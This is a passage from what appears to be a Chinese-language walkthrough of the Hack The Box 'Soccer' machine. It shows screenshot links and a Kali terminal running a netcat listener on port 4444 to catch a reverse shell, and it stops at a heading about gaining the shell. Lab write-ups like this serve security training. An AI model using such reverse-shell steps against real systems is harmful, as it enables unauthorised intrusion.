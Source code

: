     ![](/style/image/2024-02-07-22-04-09.png)
    ![](/style/image/2024-02-07-22-07-32.png)

+ 本地监听：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Soccer]
    └─$ nc -nlvp 4444
    listening on [any] 4444 ...
    ```

+ 访问获得shell:
